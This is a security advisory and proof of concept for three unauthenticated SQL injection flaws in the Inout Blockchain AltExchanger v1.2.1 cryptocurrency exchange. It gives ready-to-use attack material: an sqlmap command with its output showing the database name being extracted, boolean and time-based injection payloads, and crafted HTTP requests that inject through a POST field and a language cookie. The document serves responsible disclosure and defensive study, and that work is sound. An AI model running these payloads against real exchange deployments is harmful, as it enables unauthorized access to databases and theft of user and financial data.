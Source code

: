 # Information
```
Vulnerability Name  : Multiple Remote SQL Injections in Inout Blockchain AltExchanger
Product             : Inout Blockchain AltExchanger
version             : 1.2.1
Date                : 2022-05-21
Vendor Site         : https://www.inoutscripts.com/products/inout-blockchain-altexchanger/
Exploit Detail      : https://github.com/bigb0x/CVEs/Blockchain-AltExchanger-121-sqli.md
CVE-Number          : CVE-2022-31487, CVE-2022-31488, CVE-2022-31489
Exploit Author      : Mohamed N. Ali @MohamedNab1l
```
<br>

# Description
<br>

Three SQL injections have been discovered in Blockchain AltExchanger cryptocurrency exchange platform v1.2.1. This will allow remote non-authenticated attackers to inject SQL code. This could result in full information disclosure.
<br>

## 1- Vulnerable Parameter: symbol (GET)

<br>

Vulnerability File:
```sql
/application/third_party/Chart/TradingView/chart_content/master.php
```
<br>

### Sqlmap command:
```sql
python sqlmap.py -u "http://vulnerable-host.com/application/third_party/Chart/TradingView/chart_content/master.php/history?from=1652650195&resolution=5&symbol=BTC-BCH" -p symbol --dbms=MySQL --banner --random-agent --current-db
```
<br>

### output:
```sql
Parameter: symbol (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: from=1652650195&resolution=5&symbol=BTC-BCH') AND 7820=7820 AND ('HqKC'='HqKC

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: from=1652650195&resolution=5&symbol=BTC-BCH') AND (SELECT 1060 FROM (SELECT(SLEEP(5)))WJpc) AND ('rQoO'='rQoO
[16:43:22] [INFO] testing MySQL
[16:43:23] [INFO] confirming MySQL
[16:43:26] [INFO] the back-end DBMS is MySQL
[16:43:26] [INFO] fetching banner
[16:43:26] [INFO] resumed: 5.6.50
web application technology: PHP 7.0.33
back-end DBMS: MySQL >= 5.0.0
banner: '5.6.50'
[16:43:26] [INFO] fetching current database
[16:43:26] [INFO] retrieved: inout_blockchain_altexchanger_db
current database: 'inout_blockchain_altexchanger_db'
```
<br>
<img src="./resources/Blockchain-AltExchanger-121-sqli-1.png">
<br>

## 2- Vulnerable Parameter: marketcurrency (POST)

<br>

Vulnerability File: 
```sql
/index.php/coins/update_marketboxslider
```
<br>

### HTTP Request:
----------------------------------------------------
```sql
POST /index.php/coins/update_marketboxslider HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://vulnerable-host.com/
Cookie: inoutio_language=4
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
Content-Length: 69
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4512.0 Safari/537.36
Host: vulnerable-host.com
Connection: Keep-alive
displaylimit=4&marketcurrency=-INJEQT-SQL-HERE
```
----------------------------------------------------

<br>

## 3- Vulnerable Parameter: Cookie: inoutio_language (GET)

<br>

Vulnerability File:
```sql
/index.php
```
<br>

### HTTP Request:
----------------------------------------------------
```sql
GET /index.php/home/about HTTP/1.1
Referer: https://www.google.com/search?hl=en&q=testing
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4512.0 Safari/537.36
x-requested-with: XMLHttpRequest
Cookie: inoutio_language=0'XOR(if(now()=sysdate()%2Csleep(6)%2C0))XOR'Z
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
Host: vulnerable-host.com
Connection: Keep-alive
```
----------------------------------------------------

<br>

## Timeline
```
2022-05-03: Discovered the bug
2022-05-03: Reported to vendor
2022-05-21: Advisory published
```

<br>

## Discovered by
```
Mohamed N. Ali
@MohamedNab1l
ali.mohamed{at}gmail.com

```
